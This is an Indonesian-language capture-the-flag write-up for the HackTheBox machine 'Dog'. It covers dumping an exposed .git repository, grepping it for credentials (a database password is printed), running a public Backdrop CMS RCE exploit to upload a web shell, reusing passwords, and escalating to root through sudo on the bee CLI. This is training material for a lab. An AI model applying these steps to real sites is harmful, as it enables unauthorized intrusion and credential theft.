 ```yaml
---
layout: post
title: "HTB Writeup – Dog"
date: 2025-06-24
image: /assets/machine/dog/dog.jpg
tags: [htb, linux]
excerpt: "Exploit Backdrop CMS and use bee tool for privesc"
---
```



<center>
  <img src="/assets/machine/dog/dog.jpg" class="img-post" />
</center>


# RECON

## Port Scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-title: Home | Dog
```

Kita bisa lihat kalau ada direktori **.git**, kita bisa manfaatkan untuk melihat track code dan perubahan yang ada di repository.


## Git Dump

Kita bisa gunakan beberapa tools, seperti GitTools, GitHack, dll.


Disini saya menggunakan [GitHack](https://github.com/lijiejie/GitHack)

<center>
  <img src="/assets/machine/dog/githack.png" class="img-post" />
</center>

Seteleah itu kita bisa menggunakan **grep** untuk mencari kata kunci yang kita inginkan, seperti  berikut:

```bash
grep -rE "password|@dog.htb|administrator|database" 10.10.11.58
```

dan ini yang kita dapat:

```
10.10.11.58/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

10.10.11.58/settings.php:$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

Kita mendapatkan **tiffany** dan ***BackDropJ2024DS2024*** sebagai kredensial untuk masuk ke web.

<center>
  <img src="/assets/machine/dog/webtifanny.jpg" class="img-post" />
</center>

# USER

## www-data

Kita menemukan sebuah halaman untuk melalukan upload file. 

Sebelumnya saya sudah explore web nya dan berjalan di **[Backdrop CMS 1.27.1](https://www.exploit-db.com/exploits/52021)**, dan terdapat CVE yang dapat melakukan RCE.

```bash
$ python3 52021.py http://10.10.11.58               
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

Ini akan membuat sebuah file zip, namun yang boleh di upload hanya **tar tgz gz bz2**, jadi kita ubah ke **tar** file.

```
tar -cvf shell.tar shell/
```

Pergi ke **Manual Installation** dan upload.

Lalu seteleh berhasil kita pergi ke */model/shell/shell.php* seperti yang di tunjukan oleh script python tadi.

Tinggal kita buat revshell dan melakukan masuk ke user **www-data**

<center>
  <img src="/assets/machine/dog/nc.png" class="img-post" />
</center>

Ingat dalam folder git kita mendapatkan kredensial mysql? Ketika saya masuk sama mendapatkan username **jobert** dan hash nya, namun ketika di crack saya tidak mendapatkan apapun.

<center>
  <img src="/assets/machine/dog/home.jpg" class="img-post" />
</center>

## johncusack

Saya mencoba menggunakan password yang Sebelumnya kita temukan dan untuk masuk ke mysql ternyata bisa juga di gunakan untuk user **johncusack**.

dan kita mendapatkan user flag disini.


# ROOT

Kita lihat menggunakan **sudo -l**

```bash
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

Kita lihat */usr/local/bin/bee*

```
#!/usr/bin/env php
<?php
/**
 * @file
 * A command line utility for Backdrop CMS.
 */

// Exit gracefully with a meaningful message if installed within a web
// accessible location and accessed in the browser.
if (!bee_is_cli()) {
  echo bee_browser_load_html();
  die();
}

// Set custom error handler.
set_error_handler('bee_error_handler');

// Include files.
require_once __DIR__ . '/includes/miscellaneous.inc';
require_once __DIR__ . '/includes/command.inc';
require_once __DIR__ . '/includes/render.inc';
require_once __DIR__ . '/includes/filesystem.inc';
require_once __DIR__ . '/includes/input.inc';
require_once __DIR__ . '/includes/globals.inc';

// Main execution code.
bee_initialize_server();
bee_parse_input();
bee_initialize_console();
bee_process_command();
bee_print_messages();
bee_display_output();
exit();

/**
 * Custom error handler for `bee`.
 *
 * @param int $error_level
 *   The level of the error.
 * @param string $message
 *   Error message to output to the user.
 * @param string $filename
 *   The file that the error came from.
 * @param int $line
 *   The line number the error came from.
 * @param array $context
 *   An array of all variables from where the error was triggered.
 *
 * @see https://www.php.net/manual/en/function.set-error-handler.php
 * @see _backdrop_error_handler()
 */
function bee_error_handler($error_level, $message, $filename, $line, array $context = NULL) {
  require_once __DIR__ . '/includes/errors.inc';
  _bee_error_handler_real($error_level, $message, $filename, $line, $context);
}

/**
 * Detects whether the current script is running in a command-line environment.
 */
function bee_is_cli() {
  return (empty($_SERVER['SERVER_SOFTWARE']) && (php_sapi_name() == 'cli' || (is_numeric($_SERVER['argc']) && $_SERVER['argc'] > 0)));
}

/**
 * Return the HTML to display if this page is loaded in the browser.
 *
 * @return string
 *   The concatentated html to display.
 */
function bee_browser_load_html() {
  // Set the title to use in h1 and title elements.
  $title = "Bee Gone!";
  // Place a white block over "#!/usr/bin/env php" as this is output before
  // anything else.
  $browser_output = "<div style='background-color:white;position:absolute;width:15rem;height:3rem;top:0;left:0;z-index:9;'>&nbsp;</div>";
  // Add the bee logo and style appropriately.
  $browser_output .= "<img src='./images/bee.png' align='right' width='150' height='157' style='max-width:100%;margin-top:3rem;'>";
  // Add meaningful text.
  $browser_output .= "<h1 style='font-family:Tahoma;'>$title</h1>";
  $browser_output .= "<p style='font-family:Verdana;'>Bee is a command line tool only and will not work in the browser.</p>";
  // Add the document title using javascript when the window loads.
  $browser_output .= "<script>window.onload = function(){document.title='$title';}</script>";
  // Output the combined string.
  return $browser_output;
}
```


Ini merupakan tools untuk mengelola Backdrop CMS melalui CLI, dan sekilas kita bisa lihat kalau ini bisa menjalankan script PHP, disini lah kita bisa mendapat akses root.

Namun disini kita harus melalukannya dari path **/var/www/html** untuk bisa menjalankannya.

<center>
  <img src="/assets/machine/dog/root.jpg" class="img-post" />
</center>

Rooted.